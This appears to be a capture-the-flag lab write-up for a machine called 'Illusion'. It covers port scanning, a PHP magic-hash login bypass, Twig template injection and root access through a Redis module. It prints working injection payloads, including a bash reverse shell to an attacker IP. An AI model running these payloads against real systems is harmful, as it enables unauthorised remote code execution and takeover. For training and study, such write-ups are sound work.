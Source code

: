 # Illusion

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 192.168.183.203
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-12 18:22 +08
Warning: 192.168.183.203 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.183.203
Host is up (0.17s latency).
Not shown: 65528 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    open     http
```

We can start proxying traffic through Burp.&#x20;

### Web Enum --> Magic Hashes

Port 80 presents a corporate web page with a Login:

<figure><img src="../../../.gitbook/assets/image (25) (1) (3).png" alt=""><figcaption></figcaption></figure>

The login page is basic and operates in PHP:

<figure><img src="../../../.gitbook/assets/image (27) (2).png" alt=""><figcaption></figcaption></figure>

Default credentials don't work here. Brute forcing also doesn't work. Since this runs on PHP, we can try some Magic Hashes by submitting this request:

<figure><img src="../../../.gitbook/assets/image (16) (2) (6).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Type%20Juggling/README.md" %}

This works because the `Location` header points to `dashboard.php` now.&#x20;

### Orders --> SSTI

The dashboard is simple.

<figure><img src="../../../.gitbook/assets/image (28) (5).png" alt=""><figcaption></figcaption></figure>

If we submit any queries, we can see our order name pop up on the top:

<figure><img src="../../../.gitbook/assets/image (21) (1) (2) (2).png" alt=""><figcaption></figcaption></figure>

Since this website runs on PHP and the input value is printed out on screen, I wanted to test for SSTI by using `{{7*7}}` as the name of the order, and it works:

<figure><img src="../../../.gitbook/assets/image (26) (1).png" alt=""><figcaption></figcaption></figure>

On Hacktricks, there's a whole section for Twig (PHP), and I tried their payload to run `id`:

```
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

This confirms that SSTI works and we have RCE on the machine. Sending this payload gets us a reverse shell:

```
{{_self.env.registerUndefinedFilterCallback("system")}}{{_self.env.getFilter("bash -c 'bash -i >& /dev/tcp/192.168.45.208/4444 0>&1'")}}
```

<figure><img src="../../../.gitbook/assets/image (14) (12).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Redis Creds --> RCE

Within the user's directory, there was a Redis related file that contained a hash:

```
www-data@illusion:/home/james$ ls
local.txt  redis-openssl-gen-pass.txt
www-data@illusion:/home/james$ cat redis-openssl-gen-pass.txt 
sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
```

Checking the listening ports using `netstat` reveals that port 6379 is listening and is likely Redis:

```
www-data@illusion:/home/james$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:6379          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -   
```

We can port forward this using `chisel`. Afterwards, we can access the Redis database using `redis-cli`. Attempts to run commands fail because we aren't authenticated:

```
$ redis-cli -h 127.0.0.1
127.0.0.1:6379> INFO
NOAUTH Authentication required.
```

In this case, we can try the hash that we found earlier.&#x20;

```
127.0.0.1:6379> AUTH sgm5ZgEsCrj4L/0fi/1XGUcGII2GTuAjo3eotCFNy6ZManKrLWQaRCTOE6QpyCojpyr+Rix12VYbdOkA
OK
127.0.0.1:6379> INFO
# Server
redis_version:6.2.6
<TRUNCATED>
```

There was nothing within the database that was interesting, but I did want to know who was running it. A quick `ps -elf` reveals that the `root` user is running it:

```
www-data@illusion:/home/james$ ps -elf |grep redis
5 S root         893       1  0  80   0 - 13071 -      10:21 ?        00:00:00 /usr/local/bin/redis-server 127.0.0.1:6379
0 S www-data    3221    3025  0  80   0 -  1625 pipe_w 10:37 pts/0    00:00:00 grep redis
```

Since `root` is running it and we can login, this means that we can also load any module that we want. This repository has a module that works:

{% embed url="https://github.com/n0b0dyCN/RedisModules-ExecuteCommand" %}

Compile and upload the `.so` file to the machine. Then, load it within `redis-cli`:

<figure><img src="../../../.gitbook/assets/image (4) (12).png" alt=""><figcaption></figcaption></figure>

We can get a reverse shell via `system.rev <IP> <PORT>`:

<figure><img src="../../../.gitbook/assets/image (8) (13).png" alt=""><figcaption></figcaption></figure>

Rooted!

